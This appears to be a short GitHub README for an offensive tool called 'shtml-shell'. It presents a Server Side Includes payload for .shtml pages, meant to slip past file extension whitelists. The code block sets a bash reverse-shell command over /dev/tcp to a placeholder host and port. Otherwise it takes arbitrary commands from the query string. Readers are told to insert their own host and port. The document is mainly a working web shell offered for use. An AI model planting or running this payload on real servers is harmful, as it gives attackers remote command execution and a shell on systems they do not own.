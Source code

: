# shtml-shell

This Shell abuses the Server Side Inclusions in HTML and allow you get get a reverse connection back to your own machin 

This can come in handy when you want to get arround file extension whitlist

Please change 0.0.0.0 to your host and 1337 to your port in the following lines if you want to get the reverse connection

```sh

<!--#if expr="$QUERY_STRING_UNESCAPED = \$zero" -->
<!--#set var="shl" value="bash -i >& /dev/tcp/0.0.0.0/1337 0>&1" --> 
<!--#else -->
<!--#set var="shl" value=$QUERY_STRING_UNESCAPED -->
<!--#endif -->

 ```


Referenses : 

 * What is SSI : https://httpd.apache.org/docs/current/howto/ssi.html#:~:text=What%20are%20SSI%3F,program%2C%20or%20other%20dynamic%20technology.
 
 * Learn about SSI : https://www.st-andrews.ac.uk/itsnew/web/ssi/

 * Documentation : https://httpd.apache.org/docs/2.4/mod/mod_include.html

 
